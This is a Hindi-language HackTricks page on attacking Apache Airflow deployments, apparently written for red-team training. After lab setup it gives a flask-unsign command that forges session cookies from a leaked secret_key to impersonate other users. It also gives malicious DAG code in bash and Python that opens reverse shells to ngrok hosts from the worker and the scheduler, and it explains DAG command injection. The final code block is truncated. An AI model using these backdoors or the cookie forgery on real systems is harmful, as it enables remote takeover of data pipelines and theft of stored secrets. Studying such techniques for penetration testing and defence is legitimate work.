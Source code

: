 # Apache Airflow सुरक्षा

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) को **फॉलो करें**.
* **अपनी हैकिंग ट्रिक्स साझा करें, HackTricks** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके.

</details>

## मूल जानकारी

[**Apache Airflow**](https://airflow.apache.org) एक मंच के रूप में काम करता है जो **डेटा पाइपलाइन्स या वर्कफ्लोज को ऑर्केस्ट्रेट और शेड्यूल करने** के लिए है। डेटा पाइपलाइन्स के संदर्भ में "ऑर्केस्ट्रेशन" शब्द का अर्थ है विभिन्न स्रोतों से आने वाले जटिल डेटा वर्कफ्लोज की व्यवस्था, समन्वय और प्रबंधन की प्रक्रिया। इन ऑर्केस्ट्रेटेड डेटा पाइपलाइन्स का प्राथमिक उद्देश्य प्रोसेस्ड और उपभोग योग्य डेटा सेट्स प्रदान करना है। ये डेटा सेट्स व्यापक रूप से अनेक अनुप्रयोगों द्वारा उपयोग किए जाते हैं, जिनमें व्यापार खुफिया उपकरण, डेटा विज्ञान और मशीन लर्निंग मॉडल शामिल हैं, जो सभी बिग डेटा अनुप्रयोगों के कार्यान्वयन के लिए मौलिक हैं।

मूल रूप से, Apache Airflow आपको **कोड के निष्पादन को शेड्यूल करने की अनुमति देगा जब कुछ** (इवेंट, क्रॉन) **होता है**।

## स्थानीय लैब

### Docker-Compose

आप [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) से **docker-compose कॉन्फ़िग फ़ाइल का उपयोग करके** पूर्ण apache airflow docker वातावरण लॉन्च कर सकते हैं। (यदि आप MacOS में हैं तो सुनिश्चित करें कि डॉकर VM को कम से कम 6GB रैम दें)।

### Minikube

**apache airflo**w को **minikube के साथ चलाने** का एक आसान तरीका है:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow विन्यास

Airflow अपने विन्यास में **संवेदनशील जानकारी** संग्रहीत कर सकता है या आपको कमजोर विन्यास मिल सकते हैं:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Airflow पर हमला करने से पहले आपको समझना चाहिए **कैसे अनुमतियाँ काम करती हैं**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## हमले

### वेब कंसोल गणना

यदि आपके पास **वेब कंसोल तक पहुँच** है तो आप निम्नलिखित जानकारी में से कुछ या सभी तक पहुँच सकते हैं:

* **वेरिएबल्स** (यहाँ कस्टम संवेदनशील जानकारी संग्रहीत की जा सकती है)
* **कनेक्शन्स** (यहाँ कस्टम संवेदनशील जानकारी संग्रहीत की जा सकती है)
* इन्हें `http://<airflow>/connection/list/` में एक्सेस करें
* [**विन्यास**](./#airflow-configuration) (संवेदनशील जानकारी जैसे कि **`secret_key`** और पासवर्ड यहाँ संग्रहीत किए जा सकते हैं)
* **उपयोगकर्ता और भूमिकाओं** की सूची
* प्रत्येक **DAG** का **कोड** (जिसमें दिलचस्प जानकारी हो सकती है)

### वेरिएबल्स मान प्राप्त करना

वेरिएबल्स को Airflow में संग्रहीत किया जा सकता है ताकि **DAGs** उनके मानों तक **पहुँच** सकें। यह अन्य प्लेटफॉर्म्स के सीक्रेट्स के समान है। यदि आपके पास **पर्याप्त अनुमतियाँ** हैं तो आप उन्हें GUI में `http://<airflow>/variable/list/` पर एक्सेस कर सकते हैं।\
Airflow डिफ़ॉल्ट रूप से GUI में वेरिएबल के मान को दिखाएगा, हालांकि, [**इस**](https://marclamberti.com/blog/variables-with-apache-airflow/) के अनुसार यह संभव है कि एक **सूची वेरिएबल्स** को सेट किया जाए जिनका **मान** **GUI** में **तारांकन** के रूप में दिखाई देगा।

![](<../../.gitbook/assets/image (79).png>)

हालांकि, ये **मान** अभी भी **CLI** के माध्यम से **प्राप्त** किए जा सकते हैं (आपको DB तक पहुँच होनी चाहिए), **मनमाने DAG** के निष्पादन, **API** के माध्यम से जो वेरिएबल्स एंडपॉइंट तक पहुँचता है (API को सक्रिय किया जाना चाहिए), और **यहाँ तक कि GUI स्वयं भी!**\
GUI से उन मानों तक पहुँचने के लिए बस **वेरिएबल्स का चयन करें** जिन्हें आप एक्सेस करना चाहते हैं और **Actions -> Export पर क्लिक करें**।\
एक और तरीका है **छिपे हुए मान** पर **ब्रूटफोर्स** करना, **खोज फिल्टरिंग** का उपयोग करते हुए जब तक आप इसे प्राप्त नहीं कर लेते:

![](<../../.gitbook/assets/image (30).png>)

### विशेषाधिकार वृद्धि

यदि **`expose_config`** विन्यास **True** पर सेट है, तो **User भूमिका** से **ऊपर** के उपयोगकर्ता **वेब में कॉन्फ़िग पढ़** सकते हैं। इस कॉन्फ़िग में, **`secret_key`** दिखाई देता है, जिसका मतलब है कि इस मान्यता वाला कोई भी उपयोगकर्ता **अपनी स्वयं की हस्ताक्षरित कुकी बना सकता है किसी अन्य उपयोगकर्ता खाते का अनुकरण करने के लिए**।
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG बैकडोर (Airflow worker में RCE)

यदि आपके पास **DAGs सहेजे जाने वाले स्थान** पर **लिखने का अधिकार** है, तो आप बस **एक बना सकते हैं** जो आपको **रिवर्स शेल** भेजेगा।\
ध्यान दें कि यह रिवर्स शेल **airflow worker container** के अंदर निष्पादित किया जाएगा:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG बैकडोर (Airflow scheduler में RCE)

यदि आप कुछ ऐसा सेट करते हैं जिसे **कोड के रूट में निष्पादित किया जाना है**, इस लेखन के समय, यह **scheduler द्वारा निष्पादित किया जाएगा** DAG के फोल्डर के अंदर रखने के कुछ सेकंड बाद।
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG निर्माण

यदि आप **DAG क्लस्टर के अंदर किसी मशीन को समझौता करने में सफल होते हैं**, तो आप `dags/` फोल्डर में नए **DAGs स्क्रिप्ट्स** बना सकते हैं और वे **DAG क्लस्टर के अंदर बाकी मशीनों में प्रतिलिपि बन जाएंगे**।

### DAG कोड इंजेक्शन

जब आप GUI से कोई DAG निष्पादित करते हैं तो आप उसमें **आर्ग्युमेंट्स पास** कर सकते हैं।\
इसलिए, यदि DAG ठीक से कोडित नहीं है तो वह **कमांड इंजेक्शन के लिए संवेदनशील हो सकता है।**\
यही इस CVE में हुआ था: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

DAGs में **कमांड इंजेक्शन की तलाश शुरू करने के लिए आपको जो जानना जरूरी है** वह यह है कि **पैरामीटर्स** को **`dag_run.conf.get("param_name")`** कोड के साथ **एक्सेस किया जाता है**।

इसके अलावा, वही संवेदनशीलता **वेरिएबल्स** के साथ भी हो सकती है (ध्यान दें कि पर्याप्त अधिकारों के साथ आप GUI में **वेरिएबल्स के मूल्य को नियंत्रित कर सकते हैं**). वेरिएबल्स को **एक्सेस किया जाता है**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
```markdown
यदि वे उदाहरण के लिए एक bash कमांड के अंदर इस्तेमाल किए जाते हैं, तो आप कमांड इंजेक्शन कर सकते हैं।

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) को **फॉलो** करें।
* **अपनी हैकिंग ट्रिक्स साझा करें PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
```
